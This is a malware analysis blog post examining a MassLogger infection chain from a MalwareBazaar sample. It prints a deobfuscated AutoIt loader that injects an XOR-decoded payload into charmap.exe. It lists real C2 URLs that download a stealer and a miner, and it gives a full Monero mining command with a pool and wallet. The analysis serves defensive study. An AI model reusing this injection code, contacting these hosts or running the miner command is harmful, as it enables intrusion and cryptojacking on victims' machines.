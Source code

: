 MassLogger, an information-stealing malware designed to capture credentials, keystrokes, and clipboard data from victims, has been gaining prevalence in the threat landscape, with campaigns of various sizes and victimology observed worldwide. (Yes I copied this from broadcom lol)

Anyways, as usual I was on [MalwareBazaar](https://bazaar.abuse.ch/browse/), wishing to find a fresh malware and the one that caught my eye was the MassLogger tagged bat file.

![1|1000](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_8/1.png?raw=true)

There are more example MassLogger executables uploaded by [lowmal3](https://bazaar.abuse.ch/user/1700/), but I chose this one to analyze, because others were almost same thing and some of them were .Net executables, which is old technique used by MassLogger.

This is the malware flow I made while analyzing the malware:

![1|700](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_8/2.png?raw=true)

NOTE: To make it clear, all these executables are injected into different legit applications and executed as new thread. i don't want to repeat it every time.
At the top you can see a binary file named "sqNnY.bin", it will be our main target in this analysis but before that I want to tell what the other exe files does first. Starting from decrypted "aLlTeucWnrhechxHC.bin", first checks for debugger and simple VM detection (it is too easy to detect and bypass). 
Next "installer" is downloaded and executed, it drops new files and executes the au3 file. Last au3 file was most obfuscated one but it is not really difficult to deobfuscate it:

```au3
#cs
$vkkiihtobf = \nwekwowlwhwcogczoft
$nticu = C:\Windows\System32\charmap.exe
$cwipirw = kernel32.dll
$gsnfwdmcztclwcovhkqgi = OpenProcess
$gdixmilpmsosbp = VirtualAllocEx
$jecokuozjfa = WriteProcessMemory
$nhybphxljwzq = CreateRemoteThread
$rjhkweazp = CloseHandle
$fosxprdysmayinrykddwmelktkhpm = handle
$zixjs = dword
$xkitfxhddsbtsyuxw = bool
$lbcideknmrnsazvfazvjqox = ptr
$gbjoxnfcmfxrj = ulong_ptr
$gejrlpqkrcxnxubmbxdu = struct*
$buwqyl = dword*
$gvbdvltraydirvkh = byte[
$kplaadznpnfjmbmdfevat = ]
$mbklctvdfrnfgjakgsbqgx = 0x1F0FFF
$hnxremrogwsdjpoags = 0x3000
$invhvdcuydydlonc = 0x40
#ce

Global $pjbhqshpkkrdxsjiyzikstcp = FileOpen(@ScriptDir & $vkkiihtobf, 16)
Global $ewwhytiyydkuc = FileRead($pjbhqshpkkrdxsjiyzikstcp)
FileClose($pjbhqshpkkrdxsjiyzikstcp)

Global $mkzfc = BinaryLen($ewwhytiyydkuc)
If $mkzfc = 0 Then Exit

Global $mleqiqnnnbwglgehhkicmgaklppajh = DllStructCreate($gvbdvltraydirvkh & $mkzfc & $kplaadznpnfjmbmdfevat)
DllStructSetData($mleqiqnnnbwglgehhkicmgaklppajh, 1, $ewwhytiyydkuc)
For $rpmvy = 1 To $mkzfc
    DllStructSetData($mleqiqnnnbwglgehhkicmgaklppajh, 1, BitXOR(DllStructGetData($mleqiqnnnbwglgehhkicmgaklppajh, 1, $rpmvy), 185), $rpmvy)
Next

Global $yapoagjwmurj = Run($nticu, "", @SW_HIDE)
Global $lshbtrvzmznfktftandgtxfwse = DllCall($cwipirw, $fosxprdysmayinrykddwmelktkhpm, $gsnfwdmcztclwcovhkqgi, $zixjs, $mbklctvdfrnfgjakgsbqgx, $xkitfxhddsbtsyuxw, False, $zixjs, $yapoagjwmurj)[0]
Global $ynvhvx = DllCall($cwipirw, $lbcideknmrnsazvfazvjqox, $gdixmilpmsosbp, $fosxprdysmayinrykddwmelktkhpm, $lshbtrvzmznfktftandgtxfwse, $lbcideknmrnsazvfazvjqox, 0, $gbjoxnfcmfxrj, $mkzfc, $zixjs, $hnxremrogwsdjpoags, $zixjs, $invhvdcuydydlonc)[0]

DllCall($cwipirw, $xkitfxhddsbtsyuxw, $jecokuozjfa, $fosxprdysmayinrykddwmelktkhpm, $lshbtrvzmznfktftandgtxfwse, $lbcideknmrnsazvfazvjqox, $ynvhvx, $gejrlpqkrcxnxubmbxdu, $mleqiqnnnbwglgehhkicmgaklppajh, $gbjoxnfcmfxrj, $mkzfc, $lbcideknmrnsazvfazvjqox, 0)
Global $zsingslima = DllCall($cwipirw, $fosxprdysmayinrykddwmelktkhpm, $nhybphxljwzq, $fosxprdysmayinrykddwmelktkhpm, $lshbtrvzmznfktftandgtxfwse, $lbcideknmrnsazvfazvjqox, 0, $gbjoxnfcmfxrj, 0, $lbcideknmrnsazvfazvjqox, $ynvhvx, $lbcideknmrnsazvfazvjqox, 0, $zixjs, 0, $buwqyl, 0)[0]

If $zsingslima Then DllCall($cwipirw, $xkitfxhddsbtsyuxw, $rjhkweazp, $fosxprdysmayinrykddwmelktkhpm, $zsingslima)
DllCall($cwipirw, $xkitfxhddsbtsyuxw, $rjhkweazp, $fosxprdysmayinrykddwmelktkhpm, $lshbtrvzmznfktftandgtxfwse)
```

Comment section is added by me and removed other decryption parts to make it clear. this au3 will execute our last exe file named "nwekwowlwhwcogczoft".

"nwekwowlwhwcogczoft" is simple C2 that can do 3 things "exit", "update", "stealer".

Simple and clear flow:
1.  Checks if "Software\rub" registry is written, if it is not created, tries to download "http://176.98.187.46:1778/stealer"
2.  Checks if the size of "stealer" more than 1000000, if yes, executing it. else pass.
3. if "Software\rub" was not created, creates it.
4. Checks if a file named "paygab" exists in %LOCALAPPDATA%, if so, xor it with "0x60" and execute it.
5. if paygab doesn't exist, downloads "http://176.98.187.46:1778/miner" and executes it.
6. miner will check if "sigverif.exe" is running, if so terminates it.
7. Executes command:
```cmd
C:\\Windows\\System32\\sigverif.exe --algo=rx/0 --url=gulf.moneroocean.stream:10001 --user=47GrvVWRXX9CbpQ7WKAqR1fP1fEYJpurvj8pAkF8FcgcUJTFi5KpTAmWxv4modTHTMNXZXSxa8K8SijdVHDiAUs69xgSt MY --pass=x --threads=2"
```

(I am providing the commands but please don't run them unless you want to donate to the malware developer)

8. Going back to "nwekwowlwhwcogczoft", after trying these things, it checks status of our machine by using InternetOpenUrl API "http://176.98.187.46:1778/heartbeat?userID=xxxx-xxxxx-xxxxx-xxxx" (userID is your machine GUID that got fetched by this executable before from registry) and using InternetReadFile API to check if there is any new command given by C2, as I said there are 3 commands "stealer"/"custom" (same thing), "exit", "update".
9. why "stealer/custom" can be given? because the one we downloaded before was actually decoy and size was lower than required. (why do this? to hide their project). 
10. other 2 "exit" and "update" are obvious, what they are.

There is a few possible case in our situation: 
1. the fake stealer is to take time of reverse engineers/malware analysts. 
2. it only gives real stealer to trusted (real victim machines by looking at their behaviour), for example I acted different than usual machines while analysing, requesting file a lot of times without checking heartbeat etc.

This was end of the "nwekwowlwhwcogczoft" executable.

The real deal was actually, "sqNnY.bin". Fun part is, I actually thought this is trash code to take our time but it is actually, the main part of the malware. After "xor"-ing it with the key even after you check the file type, it says "not a PE file". Also there is no "MZ" at the first 2 bytes of file. After a little, let' say "OSINT", I found out the "pe to shellcode" project was used for doing this: [pe_to_shellcode](https://github.com/hasherezade/pe_to_shellcode). A free but powerful project.

"The goal of this project is to provide a possibility to generate PE files that can be injected with minimal effort. It is inspired by Stephen Fewer's [ReflectiveDLLInjection](https://github.com/stephenfewer/ReflectiveDLLInjection) - but the difference is that with pe2shc you can add the reflective loading stub post-compilation. Also, the header of the PE file is modified in such a way, that you can start executing the injected buffer from the very beginning - just like you would do with a shellcode. It will automatically find the stub, and continue loading the full PE."